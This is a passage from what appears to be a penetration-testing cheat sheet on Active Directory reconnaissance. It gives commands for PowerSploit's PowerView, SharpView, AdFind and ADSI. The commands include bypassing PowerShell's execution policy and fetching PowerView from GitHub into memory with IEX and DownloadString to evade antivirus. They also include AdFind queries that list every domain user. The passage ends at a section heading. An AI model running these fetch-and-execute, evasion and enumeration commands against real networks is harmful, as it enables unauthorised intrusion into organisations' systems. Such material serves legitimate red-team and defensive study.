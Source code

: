 The `dev` branch has the most up-to-date cmdlets:
`git clone --single-branch --branch dev https://github.com/PowerShellMafia/PowerSploit.git`

```
# PowerShell by default will not allow execution of PowerShell scripts
powershell.exe -ExecutionPolicy bypass powershell.exe
Set-ExecutionPolicy -Force -Scope CurrentUser -ExecutionPolicy Bypass

Import-Module <PATH\PowerView.ps1>
```

`PowerSploit` can trigger antivirus software. To bypass such controls, inject
it directly in memory:

```
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# Master fork - Stable
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Empire fork - Maintained
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')
```

`SharpView.exe` is a C# port of `PowerView` and support a number of the
`PowerView`'s cmdlets.

```
SharpView.exe <CMDLET> <LIST_ARGUMENTS>
```

###### AdFind

`AdFind` is a command-line `C++` utility that can be used as a standalone
binary for Active Directory reconnaissance. `AdFind` implements a number of
aliases to facilitate enumeration as well as the possibility to make direct
`LDAP` query.

```
AdFind.exe <SWITCHES> [-b <BASE_DN>] [-f <LDAP_FILTER>] [<ATTRIBUTE_FILTER>]

# Example to retrieve all users' SAMAccountName and SID by querying a Global Catalog Domain Controller.
AdFind.exe -gc -list -f (objectcategory=user) sAMAccountName objectSid
```

###### Active Directory Services Interfaces (ADSI)

`Active Directory Services Interfaces (ADSI)` is a set of interfaces built-in
the Windows operating system. The `DirectoryEntry` and `DirectorySearcher`
classes can be used on Windows system to query `AD Domain Services` with the
advantage of not requiring any additional pre-requisite or tooling.

### Active Directory forest
